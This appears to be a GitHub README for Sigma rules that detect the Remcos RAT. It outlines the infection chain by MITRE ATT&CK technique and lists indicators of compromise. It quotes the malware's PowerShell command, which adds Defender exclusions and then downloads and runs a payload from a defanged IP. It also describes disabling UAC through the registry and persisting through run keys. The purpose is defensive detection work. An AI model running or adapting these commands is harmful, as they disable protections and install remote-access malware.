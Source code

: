 Sigma Rules for Remcos RAT Detection
Overview
This repository provides Sigma rules to detect activities related to the Remcos RAT, a Remote Access Trojan used for malicious purposes. The rules are designed to detect various tactics and techniques used by this malware, including initial access, execution, persistence, defense evasion, discovery, collection, and command & control.

Sigma Rule
File Name: remcos_rat_detection.yml
Description: The rule aims to identify suspicious activities such as network connections, PowerShell commands, registry modifications, and other malicious actions associated with Remcos RAT.

## Analysis of Remcos RAT Behavior

The following steps outline the Remcos RAT infection process and its mapped techniques in the MITRE ATT&CK framework:

### Step 1: Initial Access
- **IP Address:** `141[.]95[.]16[.]111[:]8080`
- This IP hosts malicious files, including a `.bat` script (`recover.bat`).
- **MITRE ATT&CK Technique:** T1566 (Phishing)

### Step 2: Execution
- **MITRE ATT&CK Technique:** T1059.001 (PowerShell)
  
PowerShell command executed by the malware:
powershell
PowerShell.exe -WindowStyle hidden "Add-MpPreference -ExclusionExtension "%userprofile%\AppData\Local\Temp"; 
Add-MpPreference -ExclusionExtension ".exe"; Start-Sleep -Seconds 5; 
Invoke-WebRequest 'http://141[.]95[.]16[.]111:8080/RiotGames.exe' -OutFile '%userprofile%\AppData\Local\Temp\RiotGames.exe'; 
cmd.exe /c %userprofile%\AppData\Local\Temp\RiotGames.exe"

Actions:

    Add exclusions for the %userprofile%\AppData\Local\Temp directory and .exe files to bypass Windows Defender.
    Download and execute the RiotGames.exe malware from the remote IP.

Step 3: Defense Evasion

    MITRE ATT&CK Technique: T1548.002 (Bypass User Account Control)
        The malware disables User Account Control (UAC) by modifying the registry key:

      

        HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System

            The EnableLUA value is set to 0 to disable UAC.

Step 4: Persistence

    MITRE ATT&CK Technique: T1547.001 (Registry Run Keys/Startup Folder)
        The malware copies itself to the directory:

        makefile

        C:\ProgramData\Terminal\terminal.exe

        It creates entries in the following registry keys to ensure persistence:
            HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
            HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Step 5: Discovery

    MITRE ATT&CK Technique: T1083 (File and Directory Discovery)
        The malware scans the system for important files and directories.

Step 6: Collection and Exfiltration

    MITRE ATT&CK Technique:
        T1113 (Screen Capture): The malware captures screenshots.
        T1056.001 (Keylogging): It logs keystrokes to a file named logs.dat in C:\ProgramData\Terminal.
        T1041 (Exfiltration Over Command and Control Channel): The malware exfiltrates captured data via the command-and-control server.

Step 7: Command and Control

    MITRE ATT&CK Technique: T1071.001 (Application Layer Protocol: Web Protocols)
        The malware communicates with the C2 server at 141[.]95[.]16[.]111:2404 and also uses http[:]//geoplugin[.]net/json[.]gp to collect geolocation data.

List of Indicators of Compromise (IOCs)
Indicator	Type	Remarks
4388789C81AFD593C5FC2F0249502153	MD5 File Hash	recover.bat
5379d703170770355efdbce86dcdb1d3	MD5 File Hash	RiotGames.exe
b28167faf2bcf0150d5e816346abb42d	MD5 File Hash	newpy.exe
25fca21c810a8ffabf4fdf3b1755c73c	MD5 File Hash	echo-4662-2DF5.exe
791545E6E3C5EB61DD12CCFBAE1B9982	MD5 File Hash	123.exe
141[.]95[.]16[.]111	IP Address	C2 Server
http[:]//geoplugin[.]net/json[.]gp	URL	Geolocation Service
MITRE ATT&CK Tactics and Techniques
Tactic	Technique
Initial Access (TA0001)	T1566: Phishing
Execution (TA0002)	T1204.002: Malicious File
	T1059.001: PowerShell
Persistence (TA0003)	T1547.001: Registry Run Keys/Startup Folder
Defense Evasion (TA0005)	T1112: Modify Registry
	T1548.002: Bypass User Account Control
	T1055: Process Injection
Discovery (TA0007)	T1083: File and Directory Discovery
	T1082: System Information Discovery
Collection (TA0009)	T1113: Screen Capture
	T1123: Audio Capture
	T1115: Clipboard Data
	T1056.001: Input Capture: Keylogging
Exfiltration (TA0010)	T1041: Exfiltration Over Command-and-Control Channel
Command & Control (TA0011)	T1071.001: Application Layer Protocol: Web Protocols
Sigma Rules

The Sigma rules created in this repository are designed to detect various stages of the Remcos RAT attack chain, including execution, persistence, defense evasion, and data exfiltration. Each rule is mapped to its corresponding MITRE ATT&CK technique for better correlation in a SOC environment.
Usage

    Clone the repository.
    Import the Sigma rules into your SIEM for real-time monitoring and alerting.
    Customize the rules based on your environment to reduce false positives.

kotlin


This file provides an overview of the analysis steps, IOCs, and Sigma rules created to detect Remcos RAT. You can customize this file as needed before uploading it to your GitHub repository.



Contributing
Contributions are welcome! Please submit a pull request or raise an issue to improve the detection rules.


References
Sigma GitHub Repository
CYFIRMA Report on Remcos RAT
